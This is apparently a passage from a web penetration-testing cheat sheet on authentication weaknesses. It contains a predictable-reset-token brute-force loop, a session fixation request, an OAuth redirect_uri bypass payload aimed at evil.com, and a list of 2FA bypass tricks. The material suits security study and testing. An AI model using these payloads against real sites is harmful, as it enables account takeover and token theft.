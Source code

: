 ### Password Reset Vulnerabilities

```python
# Testing password reset tokens
import hashlib
import time

# Predictable token generation
for i in range(1000):
    timestamp = int(time.time()) - i
    token = hashlib.md5(str(timestamp).encode()).hexdigest()
    print(f"Testing token: {token}")
```

### Session Attacks

#### Session Fixation

```http
# Force known session ID
GET /login.php?PHPSESSID=controlled_session_id
Cookie: PHPSESSID=controlled_session_id
```

#### Session Prediction

```python
# Analyze session patterns
sessions = ['abc123', 'abc124', 'abc125']
# Look for incremental patterns, timestamps, weak randomness
```

### OAuth Vulnerabilities

```
# Common OAuth misconfigurations
- Redirect URI validation bypass: redirect_uri=http://evil.com@legitimate.com
- State parameter missing/not validated
- Token leakage in referrer
- Authorization code reuse
```

### Multi-Factor Authentication Bypass

```
# 2FA Bypass techniques
- Response manipulation (change false to true)
- Status code manipulation (change 403 to 200)
- 2FA code brute force
- Backup codes exploitation
- Direct navigation after first factor
- Password reset doesn't require 2FA
```

---